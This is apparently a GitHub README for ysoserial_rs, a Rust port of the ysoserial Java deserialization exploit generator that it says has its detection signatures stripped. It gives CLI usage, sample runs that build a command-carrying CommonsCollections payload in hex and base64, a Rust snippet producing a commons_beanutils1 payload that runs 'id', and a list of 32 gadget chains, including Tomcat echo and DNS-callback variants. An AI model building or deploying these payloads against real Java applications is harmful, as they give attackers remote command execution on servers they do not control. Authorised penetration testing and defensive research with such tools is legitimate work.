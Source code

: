 # ysoserial_rs

- ysoserial的rust实现
- 去特征，比原版体积小一半

## using

```shell
ysoserial_rs 0.0.1
author: Kali-Team

USAGE:
    ysoserial [OPTIONS]

OPTIONS:
    -c, --command <COMMAND>                 Command to execute
    -f, --format <FORMAT>                   Format to Hex or Base64 [possible values: hex, base64]
    -h, --help                              Print help information
        --header_name <ECHO HEADER NAME>    Tomcat echo request header name
    -l, --list                              List all payload
    -o, --output <OUTPUT>                   Save payload to file
    -p, --payload <PAYLOAD>                 Select a payload
        --url <URL>                         URL to request DNS
    -V, --version                           Print version information

```

### format

- hex

```shell
➜  ysoserial_rs git:(main) ✗ ysoserial -p cc1 -c whomai -f hex
aced00057372003273756e2e7265666c6563742e616e6e6f746174696f6e2e416e6e6f746174696f6e496e766f636174696f...
```

- base64

```shell
➜  ysoserial_rs git:(main) ✗ ysoserial -p cc1 -c whomai -f base64
rO0ABXNyADJzdW4ucmVmbGVjdC5hbm5vdGF0aW9uLkFubm90YXRpb25JbnZvY2F0aW9uSGFuZGxlclXK9Q8Vy36lAgACTAAMbWVtYm...
```

### output

```shell
➜  ysoserial_rs git:(main) ✗ ysoserial -p cc1 -c whomai -o cc1.ser
写入文件:cc1.ser,payload大小:1395
➜  ysoserial_rs git:(main) ✗ cat cc1.ser|xxd -ps
aced00057372003273756e2e7265666c6563742e616e6e6f746174696f6e
2e416e6e6f746174696f6e496e766f636174696f6e48616e646c657255ca
...
```

## examples

```shell
cargo run --example examples
```

- 详细请看examples目录

```rust
use std::fs::File;
use std::io;
use std::io::Write;
use ysoserial_rs::get_commons_beanutils1;

fn main() -> Result<(), io::Error> {
    let mut file = File::create("commons_beanutils1.ser")?;
    file.write_all(&get_commons_beanutils1("id"))?;
    Ok(())
}
```

## 支持列表

- [x] bs1
- [x] cc1
- [x] cc2
- [x] cc3
- [x] cc4
- [x] cc5
- [x] cc6
- [x] cc7
- [x] cck1
- [x] cck2
- [x] cck3
- [x] cck4
- [x] clojure
- [x] groovy1
- [x] hibernate1
- [x] hibernate2
- [x] javassist_weld1
- [x] jboss_interceptors1
- [x] jdk7u21
- [x] jdk8u20
- [x] json1
- [x] mozilla_rhino1
- [x] mozilla_rhino2
- [x] myfaces1
- [x] rome
- [x] spring1
- [x] spring2
- [x] cck1_tomcat_echo
- [x] cck2_tomcat_echo
- [x] url_dns
- [x] c3p0
- [x] vaadin1

## 感谢

- 灵感：[Gososerial](https://github.com/EmYiQing/Gososerial)
- 开发工具：Meld，wxHexEditor，xxd